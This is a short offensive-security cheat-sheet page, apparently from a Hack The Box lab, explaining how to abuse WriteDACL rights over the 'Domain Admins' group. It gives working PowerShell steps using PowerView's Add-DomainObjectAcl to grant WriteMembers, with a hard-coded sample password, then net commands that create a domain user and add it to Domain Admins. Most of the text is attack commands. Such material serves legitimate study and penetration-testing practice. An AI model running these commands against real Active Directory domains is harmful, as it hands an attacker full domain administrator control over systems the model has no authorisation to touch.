 # **Groups: Add a Member to a Group**

**Scenario:**  
You have `WriteDACL` over a group (e.g., "Domain Admins"). Use it to grant yourself the ability to add members.

**Steps:**

1. **Import PowerView**  
   Import the PowerView module to enable Active Directory manipulation:
   ```powershell
   import-module .\powerview.ps1
   ```

2. **Set Up Credentials**  
   Create a secure credential object for the user with `WriteDACL` privileges:
   ```powershell
   $pass = convertto-securestring 'abc123!' -asplain -force
   $cred = new-object system.management.automation.pscredential('htb\MG', $pass)
   ```

3. **Modify DACL to Grant WriteMembers**  
   Use `Add-DomainObjectAcl` to allow your account to add members to the target group:
   ```powershell
   Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers -PrincipalIdentity MG -Credential $cred
   ```
   - **Why:** This modifies the DACL of the group to give the `MG` user permission to manage its membership.

4. **Add a New Member to the Group**  
   Once the DACL is modified, add a user (e.g., `NewUser`) to the group:
   ```powershell
   net user NewUser SecurePass123! /add /domain
   net group "Domain Admins" NewUser /add /domain
   ```

---
